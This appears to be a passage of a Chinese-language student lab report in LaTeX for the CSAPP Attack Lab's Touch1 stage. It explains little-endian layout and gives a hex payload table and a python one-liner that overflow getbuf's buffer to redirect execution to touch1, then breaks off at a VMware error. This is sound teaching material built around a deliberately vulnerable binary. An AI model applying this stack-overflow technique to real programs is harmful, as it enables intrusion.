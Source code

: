 根据$.S$文件可知，$Touch 1$的地址是$ 0x4017c0 $，
所以我们只需要随意输入$40$个字符，然后再输入$ Touch1 $ 的地址来覆盖 $ getbuf $的返回地址即可

注意机器采用$ Little Endian $（小端法） ，地址在栈中的排列顺序——高位在高地址，低位在低地址，
写栈帧从低地址向高地址。

\subsubsection{$Touch 1$ 漏洞注入}
根据上述分析，我们可以构造一个输入字符串，使得$ getbuf $函数返回$ Touch 1 $函数，即可完成$ Touch 1 $的攻击。

一种可行的答案为：
\begin{table}[h!]
    \centering
    \begin{tabular}{cccccccc}
        \hline
        01 02 03 04 05 06 07 08 \\
        31 41 59 26 53 58 97 93 \\
        11 45 14 19 19 18 00 00 \\
        66 66 66 66 23 33 33 33 \\
        27 18 28 18 28 45 90 45 \\
        c0 17 40 00 00 00 00 00 \\
        \hline
    \end{tabular}
    \caption{ $Touch 1$ 漏洞注入方案 }
  \end{table}
\begin{lstlisting}[language = C , title = { 另一种$Python$注入方式 } ]
    python -c 'print "A"*40 + "\xc0\x17\x40\x00\x00\x00\x00\x00"' | ./hex2raw | ./rtarget -q
\end{lstlisting}

\subsubsection{代码运行过程}
在即将运行程序测试时，我使用到了以下命令：
\begin{itemize}
    \item touch touch1.txt 生成一个文件
    \item vim touch1.txt 编辑文件
    \item ./hex2raw < touch1.txt > text1.txt 将文件转化为可读取格式
    \item ./ctarget -q -i < text1.txt 运行文件
\end{itemize}

但在$VMWare 16$中，$Win11$的$Hyper-V$和虚拟机内是冲突的，出现了报错：
$ VMware Workstation $不可恢复错误:

